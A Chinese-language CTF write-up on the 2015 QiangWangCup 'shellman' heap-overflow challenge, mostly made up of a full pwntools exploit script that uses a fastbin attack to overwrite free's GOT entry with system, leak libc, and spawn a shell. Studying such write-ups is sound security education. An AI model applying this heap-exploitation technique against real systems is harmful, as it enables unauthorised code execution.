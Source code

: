 ```yaml
---
title: 【pwn】shellman堆溢出
date: 2017-12-21 21:24:10
categories: pwn
tags:
    - 堆溢出
    - fastbin
---
```


题目来自于2015年强网杯的一道二进制题目shellman, 程序流程很清晰，阅读ida逆向后的代码很容易发现在编辑shellcode时存在溢出，一道很明显的堆溢出二进制漏洞，至于怎么利用，初始想的是利用fastbin attackg攻击，改掉shellcode管理中记录分配的地址，再利用edit功能，修改给出的函数的got地址，改为shellcode地址，后来发现开启的堆栈保护，不能利用，由于堆内容是可控的，结合delete功能，修改free函数的got地址为system地址，system执行堆上的命令，具体细节网上也很多，可参考后文链接，只是网上的都是基于堆溢出+unlink的攻击方式，这里给出堆溢出加fastbin attack的攻击方法, 详情见POC.

<!-- more-->
* POC

```Python
# -*- coding: utf-8 -*-

from pwn import *

context.arch='amd64'
context.os='linux'
context.word_size = 64
context.log_level = 'debug'

io = process('./shellman')

stack_addr = 0x6016C0 + 8*3*2
free_got_addr = 0x601600
system_offset_free = -258400    # ubuntu16.04 glibc 2.2.5

def new_code(code):
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil(': ')
    io.sendline(str(len(code)))
    io.recvuntil(': ')
    io.send(code)

def delete_code(idx):
    io.recvuntil('> ')
    io.sendline('4')
    io.recvuntil(': ')
    io.sendline(str(idx))

def edit_code(idx, code):
    io.recvuntil('> ')
    io.sendline('3')
    io.recvuntil(': ')
    io.sendline(str(idx))
    io.recvuntil(': ')
    io.sendline(str(len(code)))
    io.recvuntil(': ')
    io.send(code)

def list_code():
    io.recvuntil('> ')
    io.sendline('1')

new_code('A'*32)
new_code('A'*16)
new_code('A'*32)
delete_code(1)

overflow = 'A'*32 + p64(1)+p64(33)+p64(stack_addr)
edit_code(0, overflow)
new_code('/bin/sh\x00')

new_code(p64(free_got_addr))
list_code()

io.recvuntil('SHELLC0DE 2: ')
free_addr = io.recvline().strip()[:16]
addrs = []
for i in range(0, len(free_addr), 2):
    addrs.append(free_addr[i:i+2])
addrs.reverse()
free_addr = ''.join(addrs)
print 'leak libc free addr: ' + free_addr

system_addr = int(free_addr, 16) + system_offset_free

edit_code(2, p64(system_addr))
delete_code(1)
io.interactive()
```

## REF

1. [伪造堆块绕过unlink检查 ctf-QiangWangCup-2015-shellman ](http://www.cnblogs.com/shangye/p/6261606.html)
2. [linux堆溢出实例分析](http://tyrande000.how/2016/03/21/linux%E5%A0%86%E6%BA%A2%E5%87%BA%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90/)